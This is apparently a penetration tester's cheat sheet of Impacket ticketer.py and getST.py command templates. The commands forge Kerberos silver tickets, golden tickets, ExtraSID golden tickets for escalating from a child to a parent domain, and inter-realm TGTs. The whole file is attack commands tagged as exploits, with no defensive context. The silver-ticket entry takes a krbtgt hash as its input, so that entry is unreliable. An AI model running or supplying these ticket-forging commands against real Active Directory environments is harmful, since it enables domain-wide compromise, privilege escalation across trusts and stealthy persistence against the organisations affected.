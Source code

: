 # ticketer (imp)

% impacket-kerberos, windows, kerberos, 88



## silver ticket
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> -user-id <user_rid|500> <user|administrator>
```

## golden ticket  
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_hash> -domain <domain_fqdn> -domain-sid <domain_sid> -user-id <user_rid|500> <user|administrator>
```

## golden + ExtraSID (parent-child)  (nthash)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
if user = administrator no need of -user-id
```
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid|519> -user-id <user_rid> <user|jubeaz>
```

## golden + ExtraSID (parent-child) (dc account)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_nthash> -domain-sid <child_somain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid|516> -user-id <dc_rid>  '<dc>$'
```

## (golden) Inter-Realm TGT    
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
    export KRB5CCNAME=/tmp/jubeaz.ccache   
    getST.py -k -no-pass -spn <cifs>/<dc_fqdn> <src_domain_fqdn>/<user>@<domain_fqdn> -debug
```
ticketer.py -nthash <trust_nthash> -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<RID|519>" -spn "krbtgt/<dest_domain_fqdn>" -user-id <user_rid> <user|jubeaz>
```